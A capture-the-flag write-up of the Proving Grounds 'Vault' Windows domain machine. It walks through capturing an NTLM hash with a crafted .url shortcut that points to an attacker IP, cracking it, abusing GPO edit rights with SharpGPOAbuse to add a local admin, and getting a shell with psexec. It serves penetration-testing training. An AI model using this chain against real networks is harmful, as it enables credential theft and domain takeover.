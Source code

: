 ```yaml
---
title: "Proving grounds Practice: Vault"
layout: post
date: 2023-08-12 12:00
categories: writeup
---
```


Proving grounds Practice - Vault CTF writeup.

## Walkthrough on Youtube
[![youtube](/assets/images/CTF/Proving_Grounds/Vault/youtube.png)](https://youtu.be/JocbrhLXuss)

## NMAP
```sh
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-13 04:53:47Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
```

Domain name: `vault.offsec`

## SMB share
```sh
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DocumentsShare  Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

## Writing files to DocumentsShare

![smb doc share](/assets/images/CTF/Proving_Grounds/Vault/smb-doc-share.png)

## Obtain NTLM Hash via uploading URL file

Run `responder` as root to listed for events to capture the NTLM Hash.

```text
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.45.170\%USERNAME%.icon
IconIndex=1
```

IP address should be `responder IP`.

![Obtain NTLM](/assets/images/CTF/Proving_Grounds/Vault/NTLM.png)

**Crack the hash using john**

![crack the hash](/assets/images/CTF/Proving_Grounds/Vault/john-pass-crack.png)

**Connect to attacking machine using extracted credentials**

![Machine connect](/assets/images/CTF/Proving_Grounds/Vault/evil-rm-connect.png)

## Enumerate system user privileges

![User Privilege](/assets/images/CTF/Proving_Grounds/Vault/windows_priv.png)

## Privilege Escalation

Create a tmp directory in root directory and move [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to the attacking machine.

## Enumerate Group Policies

**Default Domain Policy**

```powershell
PS C:\tmp> Get-GPO -Name "Default Domain Policy"

DisplayName      : Default Domain Policy
DomainName       : vault.offsec
Owner            : VAULT\Domain Admins
Id               : 31b2f340-016d-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 11/19/2021 12:50:33 AM
ModificationTime : 11/19/2021 2:00:32 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 4, SysVol Version: 4
WmiFilter        :
```

**Get GPPermission for anirudh**

```powershell
PS C:\tmp> Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetType User -TargetName anirudh

Trustee     : anirudh
TrusteeType : User
Permission  : GpoEditDeleteModifySecurity
Inherited   : False
```
`Permission  : GpoEditDeleteModifySecurity`

## Abuse Group Policy

[SharpGPOAbuse GitHub](https://github.com/FSecureLABS/SharpGPOAbuse)

Compile and download the binary to the attacking machine.

Download precompiled binary from [here](https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master).

**Abuse vulnerable GPO to create new local admin to the attacking machine**

```powershell
PS C:\tmp> ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
```

![GitHub](/assets/images/CTF/Proving_Grounds/Vault/gpo-abuse1.png)

Force update group policy `gpupdate /force`

**Check local group administrators list**

```powershell
PS C:\tmp> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------------------
Administrator
anirudh
The command completed successfully.
```

Use Psexec to get interactive administrator shell.

```sh
Usage:-
python3 psexec.py domain_name/username:password@IP
```

![GitHub](/assets/images/CTF/Proving_Grounds/Vault/psexec1.png)

`proof.txt` obtained.

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).